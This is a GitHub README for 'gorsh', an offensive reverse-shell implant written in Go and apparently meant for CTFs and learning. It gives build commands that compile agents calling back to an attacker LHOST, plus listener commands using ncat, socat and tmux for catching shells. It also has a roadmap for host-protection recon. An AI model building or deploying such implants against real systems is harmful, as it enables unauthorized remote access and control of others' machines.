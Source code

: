 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

See the [Changelog](./docs/CHANGELOG.md)

## Project Notes

__NOTICE__: Requires go 1.11.

Also, the zStandard compression library in this project uses `cgo` and thus you'll need the mingw
compiler on Linux if you want to compile the Windows agents. It also only supports GOARCH=amd64, so
32-bit agents use a less efficient gzip algo.

Roadmap:

- [ ] Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)
- [ ] Recon module for analyzing things like tasks, services, and host-based protections
- [ ] Dotnet integration so `shell` drops into a Runspace with System.Management.Automation. 
      Bacially PowerShell without PowerShell.
- [ ] Fix CGO compilation for macos64 so it uses zstd for compression instead of gzip


## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

Make sure to read the Makefile. It gives you a good idea of what's going on.

Because this project uses `cgo` and tries to cross-compile for linux/windows/macos, you'll need a
windows compiler. I've only tried this on Debian, but since go1.11, you just need mingw installed.

```sh
sudo apt install gcc-mingw-w64 binutils-mingw-w64-x86-64
go get github.com/audibleblink/gorsh/...
GOOS=windows go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```

While it is often required during cross-compilation to set variables like $CC, $CXX, $AS, $LD, ...
it is not required as go1.11 linux/amd64 picks up on the presence of the toolchain it needs.

### Usage

First, generate your certs:

```bash
$ make depends
```

You can set the following environment variables to compile using `go build`:
See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

- `GOOS`: the target OS
- `GOARCH`: the target architecture
- `LHOST`: the attacker IP or domain name
- `LPORT`: the listener port


For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
